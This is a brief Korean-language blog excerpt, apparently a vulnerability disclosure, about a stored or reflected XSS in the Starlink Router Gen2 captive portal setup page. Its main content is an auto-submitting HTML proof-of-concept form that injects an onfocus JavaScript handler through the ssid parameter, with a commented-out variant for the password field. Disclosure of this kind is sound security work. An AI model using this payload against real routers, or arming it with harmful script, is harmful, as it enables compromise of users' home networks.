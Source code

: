 ![img1.png](/blog/2023-Starlink-Router-Gen2-XSS/img1.png)

해당 취약점은 초기 `captive portal` 페이지(http://192.168.1.1/setup)에서 `ssid` 및 `password` 파라미터에 대한 입력 값 필터링이 충분하지 않아 발생합니다.

```
<html>
	<body>
		<h1>Proof of Concept</h1>
		<form id="PoC" method="POST" action="http://192.168.1.1/setup">
			<input type="hidden" name="ssid" value='" onfocus=javascript:alert(`XSS`); autofocus="'>
			<!-- <input type="hidden" name="password" value='" onfocus=javascript:alert(`XSS`); autofocus="'> -->
		</form>
		<script type="text/javascript">
			document.addEventListener("DOMContentLoaded", function() {
				document.getElementById("PoC").submit();
			});
		</script>
	</body>
<html>
```
